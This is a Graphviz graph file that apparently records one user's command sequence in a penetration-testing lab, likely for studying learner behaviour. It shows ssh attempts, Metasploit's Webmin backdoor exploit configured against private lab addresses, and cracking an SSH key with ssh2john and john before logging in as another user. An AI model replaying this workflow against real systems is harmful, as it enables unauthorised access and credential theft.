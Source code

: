 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	2 [label="ls A10 "]
	4 [label="ls A10 "]
	7 [label="ls A10 "]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	18 [label="msfconsole M2 "]
	26 [label="msfconsole V2 "]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit V8 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit V8 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit V8 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	54 [label="ls A10 "]
	55 [label="msfconsole V2 "]
	56 [label="show options V5 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	60 [label="ls A10 "]
	61 [label="msfconsole V2 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options V5 "]
	68 [label="use 1.920 A4 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	79 [label="ls A10 "]
	82 [label="ls A10 "]
	84 [label="ls A10 "]
	86 [label="ls A10 "]
	88 [label="ls A10 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	95 [label="ls A10 "]
	97 [label="ls A10 "]
	99 [label="ls A10 "]
	101 [label="ls A10 "]
	103 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	118 [label="ls A10 "]
	120 [label="ls A10 "]
	122 [label="ls A10 "]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	130 [label="ls a A10 "]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 V16 "]
	0 -> 2 [constraint=false]
	2 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 18 [constraint=false]
	18 -> 26 [constraint=false]
	26 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 79 [constraint=false]
	79 -> 82 [constraint=false]
	82 -> 84 [constraint=false]
	84 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 99 [constraint=false]
	99 -> 101 [constraint=false]
	101 -> 103 [constraint=false]
	103 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 118 [constraint=false]
	118 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 130 [constraint=false]
	130 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}
